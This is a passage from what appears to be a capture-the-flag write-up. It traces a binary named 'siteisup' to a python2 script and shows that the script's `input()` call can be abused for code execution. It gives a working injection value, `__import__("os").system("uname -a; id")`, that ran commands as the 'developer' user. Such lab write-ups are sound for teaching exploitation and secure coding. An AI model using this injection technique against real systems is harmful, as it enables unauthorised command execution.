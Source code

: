 ```sh
strings siteisup
```

We found that it executes `/usr/bin/python /home/developer/dev/siteisup_test.py`

![](/assets/updown/strings-siteisup.png)

`siteisup_test.py` is a python2 script (note that print does not use parenthesis).  

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

`input()` function in python2 can be leveraged to execute code.

> For example, if a malicious user imports the OS module, he can execute code on the server,
> hence leading to Remote Code Execution.

[source](https://infosecwriteups.com/python-2-vulnerabilities-c3a3779f6fc)

To test this we provided `__import__("os").system("uname -a; id")` us input, and it was executed as `developer`

![](/assets/updown/input-rce-poc.png)

